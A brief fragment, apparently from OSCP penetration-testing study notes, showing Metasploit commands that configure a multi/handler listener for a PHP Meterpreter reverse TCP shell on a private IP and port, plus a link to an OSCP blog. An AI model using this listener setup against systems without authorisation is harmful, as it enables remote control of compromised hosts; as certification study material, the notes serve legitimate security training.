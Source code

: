 ```
use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
set LHOST 192.168.119.132
set LPORT 4444
```

## Other things:
find a good blog: [My journey through OSCP](https://netosec.com/my-journey-through-oscp/)
